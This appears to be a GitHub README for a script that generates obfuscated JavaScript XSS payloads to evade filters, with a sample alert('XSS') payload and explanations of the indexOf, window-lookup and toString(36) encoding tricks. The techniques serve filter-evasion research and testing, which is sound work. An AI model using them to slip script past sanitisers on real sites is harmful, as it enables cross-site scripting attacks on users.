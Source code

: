 # Obfuscated XSS for filter evasion

Playing with JavaScript for fun and XSS evasion.

## Usage

To generate an alert box containing 'XSS':

    python make_s.py alert -p XSS -o out.js

Should generate this:

    var f = window[String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())];
    f(String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf()));

To see what happened:

    cat pre out.js post > out.html

Then open ``out.html`` with your browser. You should see an alert box.

## Why

This is valid JavaScript:

    var foo = 'AAAAundefined'.indexOf();
    // 'foo' is now 4
    var chr = String.fromCharCode(97 + foo);
    // 'chr' is now 'e'

So one could encode a string like 'alert("XSS")' using any character repeated N times (with N the ASCII value of the character) followed by the string 'undefined'.

However, writing 'alert' is not enough; we'd like to execute it. To do so without an explicit call to 'eval':

    var f = window['alert'];
    var g = 'the parameter';
    // will alert 'the parameter'
    f(g);

Ultimately:

    1. Take a payload e.g. 'alert("XSS")'
    2. Encode the function call 'alert' and the parameter '"XSS"' using the 'indexOf' trick
    3. Execute the function using the 'window' trick

## MOAR Tricks

When generating the payload, to avoid the call to 'fromCharCode' use this (only for letters, as 36 here is a base):

    (11).toString(36); = 'b'

Also to avoid the 'undefined' string, use an empty function:

    function f() {}
    var foo = 'AAAA' + f();
    var foo2 = foo.indexOf()

## Thanks to

For the inspiration [this post by Neil Fraser][1]. For implementation, [this SO answer][2] and [this post][3].

 [1]: https://neil.fraser.name/news/2016/10/07/ 
 [2]: http://stackoverflow.com/questions/3145030/convert-integer-into-its-character-equivalent-in-javascript
 [3]: http://viralpatel.net/blogs/calling-javascript-function-from-string/
